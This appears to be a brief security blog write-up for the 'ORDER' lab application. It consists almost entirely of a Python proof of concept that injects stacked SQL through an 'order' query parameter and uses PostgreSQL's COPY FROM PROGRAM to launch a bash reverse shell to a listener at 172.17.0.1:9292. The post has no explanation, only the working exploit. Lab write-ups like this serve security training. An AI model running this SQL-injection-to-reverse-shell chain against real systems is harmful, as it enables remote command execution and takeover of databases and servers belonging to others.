 ```yaml
---
layout: post
title:  "Writeup ORDER"
date:   2022-11-07 23:33:00 +0900
categories: security
---
```


# ORDER
[https://github.com/bmdyy/order](https://github.com/bmdyy/order)

# PoC

```python
import requests

target_url = "http://172.17.0.2:5000/horses"

sqli = "1;\n"
sqli += "DROP TABLE IF EXISTS cmd_exec;\n"
sqli += "CREATE TABLE cmd_exec(cmd_output text);\n"
sqli += "COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/172.17.0.1/9292 0>&1\"'";

params = {
    'order': sqli
}

requests.get(target_url, params=params, proxies={'http':'127.0.0.1:8080'})
```